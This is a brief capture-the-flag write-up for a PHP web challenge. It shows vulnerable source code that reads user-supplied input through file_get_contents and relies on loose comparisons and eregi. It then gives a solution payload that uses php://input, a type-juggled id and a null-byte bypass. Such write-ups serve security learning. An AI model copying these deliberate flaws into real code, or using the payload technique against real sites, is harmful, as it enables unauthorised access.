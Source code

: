# Challenge
```php
<?php
error_reporting(0);
echo "<!--index.phps-->";
if(!$_GET['id'])
{
	header('Location: index.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
	echo 'Hahahahahaha';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	require("flag.txt");
}
else
{
	print "work harder!harder!harder!";
}
?>
```

# Solution
payload:
```
?id=a&a=php://input&b=%0011111

POST:
1112 is a nice lab!
```

# Refference 
+ [jarvisoj : IN-A-mess](http://web.jarvisoj.com:32780/index.php?id=1)
+ [chybeta : IN-A-mess](https://chybeta.github.io/2017/07/05/jarvisoj-web-writeup/#IN-A-mess)